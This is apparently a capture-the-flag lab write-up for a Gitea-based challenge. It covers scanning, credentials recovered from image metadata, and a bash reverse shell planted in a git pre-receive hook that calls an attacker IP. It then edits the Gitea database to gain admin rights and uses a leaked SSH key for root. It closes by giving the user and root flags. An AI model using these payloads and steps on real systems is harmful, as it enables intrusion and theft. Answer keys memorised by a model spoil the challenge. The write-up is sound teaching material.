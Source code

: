 # Git And Crumpets

* IP = 10.10.21.18

## Enumeration and Scanning:

### Scan for Open Ports:

* Nmap to scan and discover open ports on the server:`nmap -sC -sV -vv $IP`
* Nmap Scan Results:
```bash
PORT     STATE  SERVICE    REASON       VERSION
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)
80/tcp   open   http       syn-ack      nginx
|_http-favicon: Unknown favicon MD5: 6A7F7C90FDB7FE26DB324F5BA6859594
| http-title: Hello, World
|_Requested resource was http://10.10.230.151/index.html
|_http-trane-info: Problem with XML parsing of /evox/about
9090/tcp closed zeus-admin conn-refused

```
### Enumerating The Webpage:

* When the website is opened in browser it redirects to <a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">this page</a>.
* Hence to trace the actual webpage, and the redirects cURL(a command-line tool) must be used with a `-v` or verbose switch like this:`curl -v http://IP/`.
* The traced website is as follows:<br>
![Screenshot](./assets/1.png)
* As it's indicated, add the following line to `/etc/hosts` file of local machine:<br>
`10.10.21.18  git.git-and-crumpets.thm`
* Now, when the link, "http://git.git-and-crumpets.thm" is opened in browser, a legit webpage of `gitea` opens:<br>
![Screenshot](./assets/2.png)
* Registered a new account like:<br>
![Screenshot](./assets/3.png)
* Now logged in with the given creds and found the repository, `scones/cant-touch-this`, only one of the commits looked interesting:<br>
![Screenshot](./assets/5.png)
* According to the commit message, downloaded the avatar of `scones` user:<br>
![Screenshot](./assets/avatar.png)<br>
* Used `exiftool` on the image gives this results:<br>
![Screenshot](./assets/6.png)
* Logged out from the new account and logged in with these creds:`scones:Password` to `scones` account.

### Vulnerabilities/Findings:

* These references led to find the actual vulnerability of the website(i.e. **Gitea**):
```
https://nvd.nist.gov/vuln/detail/CVE-2020-14144
https://github.com/PandatiX/CVE-2021-28378
```

## Exploitation/Gaining Access:

### Getting Initial Foothold:

* Navigated to `Git Hooks` of the settings of the repository:<br>
![Screenshot](./assets/7.png)
* The `pre-receive` script looked like this:<br>
![Screenshot](./assets/8.png)
* Used the bash reverse shell payload from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">pentestmonkey</a> and modified the `pre-receive` script as:
```bash
bash -i >& /dev/tcp/10.4.50.128/7777 0>&1
```
* On the other hand, started a netcat listener with same port:`nc -lnvp 7777`.
* Now making any commit to the repository,:<br>
![Screenshot](./assets/9.png)
* Brings a reverse shell to the netcat listner:<br>
![Screenshot](./assets/10.png)

### Elevating the Shell:

* Elevated the reverse shell with:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+Z
fg
export TERM=xterm
```
* Navigated to home directory of `git` user and found first flag, encoded with base64:<br>
![Screenshot](./assets/11.png)
* Decode with `base64 -d`.

## Post Exploitation

* Searched for all directories/files owned by `git` user with:<br>
`find / -xdev -user git 2> /dev/null`
* Many files/directories are owned by git user but only `/var/lib/gitea` stood out.
* Directory contents:

```bash
cd /var/lib/gitea
ls -la
total 4
drwxr-xr-x.  5 git  git    57 Apr 15 13:12 .
drwxr-xr-x. 27 root root 4096 Apr 15 11:32 ..
drwxr-x---.  2 git  git     6 Apr 14 09:46 custom
drwxr-x---. 11 git  git   170 Apr 17 23:37 data
lrwxrwxrwx.  1 git  git    15 Apr 15 13:12 log -> /var/log/gitea/
drwxr-xr-x.  7 git  git    89 Apr 14 18:09 public
```
* The `/var/lib/gitea/data` directory contents:<br>
![Screenshot](./assets/15.png)

* The file `gitea.db`, a sqlite3 file stood out interesting, checked out all tables with:`.tables`
* Contents of `user` table:( Used the command `select * from user;`)<br>
![Screenshot](./assets/13.png)
* Schemas used on the `user` table:<br>
![Screenshot](./assets/14.png)
* Noted the `is_admin` attribute of each user. Users `root` and `hydra` have the attribute set to 1. `scones` to 0.
* Next, contents of `repository` table:<br>
![Screenshot](./assets/16.png)
* And the schemas used on the table:<br>
![Screenshot](./assets/17.png)
* Noted the `is_private` attribute of each repository. Othe than the `cant-touch-this` repository all are set to 1.
* Modified the Database as stated:
```SQL
UPDATE user SET is_admin=1 where id=3;
UPDATE repository SET is_private=0 WHERE name='backup';
```

## Privilege Escalation:

* Logged out of the shell, logged out from `scones` account on the webpage; logged in again.
* New Feature is added, `Site Administration`, 2 other repositories are visible now ("http://git.git-and-crumpets.thm/admin/repos"):<br>
![Screenshot](./assets/18.png)
* `groot/backup` repository has the following commit log:<br>
![Screenshot](./assets/19.png)
* Second commit, `Add .ssh/Sup3rS3cur3` has a private ssh key:<br>
![Screenshot](./assets/20.png)
* Used the above key file and a passphrase,`Sup3rS3cur3` to ssh into the server as root with:`ssh -i id_rsa root@IP`
* Finally navigated to /root to find `base64` encoded flag, decode with:`base64 -d`.

## Questions/Tasks:

1. What is user flag?

**Ans-thm{fd7ab9ffd409064f257cd70cf3d6aa16}**

2. What is root flag?

**Ans-thm{6320228dd9e315f283b75887240dc6a1}**
